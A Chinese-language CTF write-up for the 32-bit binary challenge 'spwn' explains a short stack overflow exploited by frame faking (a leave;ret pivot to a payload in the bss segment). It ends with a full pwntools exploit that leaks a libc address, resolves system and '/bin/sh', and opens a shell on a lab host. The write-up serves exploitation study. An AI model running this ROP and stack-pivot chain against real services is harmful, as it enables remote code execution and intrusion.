



这个题来自于[咲夜南梦](https://196011564.github.io/)师傅

## 分析

checksec 一下



然后 IDA 静态分析一下





可以看到，在 main 中调用了 vul_function, 而在 vul_function 中有两次读取，第一次读取 0x200 字节到 bss 段，第二次读取到 stack 中

查看一下 stack 中 buf 相对于 ebp 的偏移为 0x18，而第二次读取的长度只有 0x20 所以只能覆盖到 ebp 和 ret addr，由于在栈处能够溢出的字节太少，不足以构造较长的 gadget，又看到第一次往 bss 读取时读取长度很充足，并且程序没有开启 PIE 保护，bss 段是知道地址的，于是考虑能否利用 bss 段实现攻击

注意到在 [CTF Wiki # frame faking](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#frame-faking) 讲到了一种叫做 Frame Faking 的方法，即伪造栈帧，就恰巧是用于溢出字节较少且有其他可控制内存区域的情形的。仔细看完介绍后，大概理解是怎么回事了，利用两次 leave, ret (**函数正常返回一次，溢出控制返回地址指向 leave, ret 再一次**) 实现栈帧伪造。

主要思路有了之后写出漏洞利用脚本就简单了

## exp

```python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *

def leak(func_name, func_addr):
    libc = LibcSearcher(func_name, func_addr)
    libc_base = func_addr - libc.dump(func_name)
    sys_addr = libc_base + libc.dump("system")
    sh_addr = libc_base + libc.dump("str_bin_sh")
    return (sys_addr, sh_addr)

def main():
    elf = ELF("spwn")
    write_plt = elf.plt[b"write"]
    read_got = elf.got[b"read"]
    main_addr = 0x08048513
    leave_ret = 0x08048511
    bss_addr = 0x0804a300
    
    r = remote("192.168.136.129", 9999)
    
    payload = b"a"*4 + p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got) + p32(4)
    r.sendafter("name?", payload)
    
    payload = b"a"*0x18 + p32(bss_addr) + p32(leave_ret)
    r.sendafter("say?", payload)
    
    read_leak = u32(r.recv(4))
    sys_addr, sh_addr = leak("read", read_leak)

    payload = b"a"*4 + p32(sys_addr) + p32(main_addr) + p32(sh_addr)
    r.sendafter("name?", payload)
    
    payload = b"a"*0x18 + p32(bss_addr) + p32(leave_ret)
    r.sendafter("say?", payload)
    
    r.interactive()

if __name__ == "__main__":
    context.log_level = "debug"
    main()

```

